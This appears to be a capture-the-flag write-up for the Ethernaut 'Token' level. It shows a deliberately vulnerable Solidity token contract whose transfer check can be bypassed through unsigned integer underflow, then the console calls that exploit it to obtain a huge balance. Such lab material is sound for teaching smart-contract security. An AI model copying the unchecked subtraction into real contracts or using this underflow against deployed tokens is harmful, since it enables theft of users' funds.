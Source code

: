 ```yaml
---
layout: post
title: Ethernaut - 5.Token
date:  2022-08-27
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌑🌑🌑
> The goal of this level is for you to hack the basic token contract below.<br />
  You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.<br /> <br />
  Things that might help:
  - What is an odometer?

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Writeup
There is a famous security pitfall. We can use technique **Underoverflow** to complete this level.
1. Get new instance.
2. Call method 
    ``` solidity

    await contract.balanceOf('YOUR_ACCOUNT').then(v=>v.toString())

    ```
  It will return default balance `20` .
3. Call the method
    ``` solidity 

    await contract.transfer('OTHER_ACCOUNT', 1000000)

    ```
4. Call the method 
    ``` solidity

    await contract.balanceOf('YOUR_ACCOUNT').then(v=>v.toString())

    ```
  It will return a very big amount.
5. Submit instance ξ( ✿＞◡❛)


![](https://i.imgur.com/YINZhWH.png)
